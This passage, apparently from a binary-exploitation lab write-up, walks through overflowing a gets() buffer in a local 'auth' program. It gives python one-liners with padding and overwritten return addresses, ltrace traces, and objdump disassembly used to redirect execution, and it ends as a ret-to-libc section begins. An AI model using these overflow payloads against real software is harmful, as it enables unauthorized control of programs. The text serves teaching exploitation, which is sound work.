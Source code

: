 We can now jump anywhere. Unfortunately, we cannot put a shellcode in the buffer
and jump into it because the stack is non-executable now. Lets try it with a few
`NOP`s. Our buffer's address is `0xbfffee63` (see the `gets()` call).
```
$ python2.7 -c 'print "\x90\x90\x90\x90" + "A" * 1349 + "\x63\xee\xff\xbf"' | ltrace -i ./auth
[0x80484f1] __libc_start_main(0x80486af, 1, 0xbffff454, 0x80486c0, 0x8048730 <unfinished ...>
[0x8048601] malloc(20)                                                                            = 0x0804b008
[0x80485df] puts("Enter password: "Enter password: 
)                                                              = 17
[0x80485ea] gets(0xbfffee63, 0x8048601, 0x80486af, 0xb7cdecb0, 0xb7cdecb7)                        = 0xbfffee63
[0x8048652] memset(0x0804b008, '\000', 20)                                                        = 0x0804b008
[0x8048671] SHA1(0xbfffee63, 137, 0x804b008, 4, 0x90000001)                                       = 0x804b008
[0xbfffee63] --- SIGSEGV (Segmentation fault) ---
[0xffffffff] +++ killed by SIGSEGV +++
```

Guess what? It didn't work... How about we try to jump to some existing code?
First, let's take a look at the `check_password()` function.
```
$ objdump -M intel -d auth | grep -A 15 "<check_password>:"
080485ec <check_password>:
 80485ec:	55                   	push   ebp
 80485ed:	89 e5                	mov    ebp,esp
 80485ef:	81 ec 58 05 00 00    	sub    esp,0x558
 80485f5:	c7 04 24 14 00 00 00 	mov    DWORD PTR [esp],0x14
 80485fc:	e8 9f fe ff ff       	call   80484a0 <malloc@plt>
 8048601:	a3 38 a0 04 08       	mov    ds:0x804a038,eax
 8048606:	a1 38 a0 04 08       	mov    eax,ds:0x804a038
 804860b:	85 c0                	test   eax,eax
 804860d:	75 18                	jne    8048627 <check_password+0x3b>
 804860f:	c7 04 24 76 87 04 08 	mov    DWORD PTR [esp],0x8048776
 8048616:	e8 95 fe ff ff       	call   80484b0 <puts@plt>
 804861b:	c7 04 24 01 00 00 00 	mov    DWORD PTR [esp],0x1
 8048622:	e8 99 fe ff ff       	call   80484c0 <exit@plt>
 8048627:	8d 85 bb fa ff ff    	lea    eax,[ebp-0x545]
 804862d:	89 04 24             	mov    DWORD PTR [esp],eax
```

Lets try `0x804860f` such that we print the `malloc` failure message.
```
$ python2.7 -c 'print "A" * 1353 + "\x0f\x86\x04\x08"' | ltrace -i -e puts ./auth
[0x80485df] puts("Enter password: "Enter password: 
)                                                              = 17
[0x804861b] puts("malloc failed"malloc failed
)                                                                 = 14
[0xffffffff] +++ exited (status 1) +++
```

### 02. Challenge - ret-to-libc
So far, so good! Now let's get serious and do something useful with this.

